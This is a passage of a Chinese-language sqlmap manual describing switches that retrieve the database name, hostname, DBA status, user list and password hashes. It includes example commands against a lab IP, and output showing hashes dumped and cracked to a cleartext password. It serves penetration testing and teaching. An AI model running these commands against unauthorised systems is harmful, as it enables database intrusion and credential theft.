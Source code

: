 开关: `--current-db`

使用此开关，可以检索web应用程序连接到的数据库管理系统的数据库名称。

### 服务器主机名

开关: `--hostname`

使用这个开关，可以检索数据库管理系统的主机名。

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
hostname

[...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```

### 检测会话用户是否是数据库管理员

开关: `--is-dba`

如果当前的数据库管理系统会话用户是数据库管理员，也称为DBA，则可以检测到它。如果是，sqlmap将返回 `True` ，反之亦然。

### 列出数据库管理系统的用户

开关: `--users`

当会话用户读取包含DBMS用户信息的系统表时，可以枚举用户列表。

### 列表和破解数据库管理系统用户密码散列

开关: `--passwords`

当会话用户读取包含关于DBMS用户密码信息的系统表的访问时，可以为每个数据库管理系统用户枚举密码散列。sqlmap将首先枚举用户，然后对每个用户进行不同的密码散列。

针对PostgreSQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
passwords -v 1

[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```
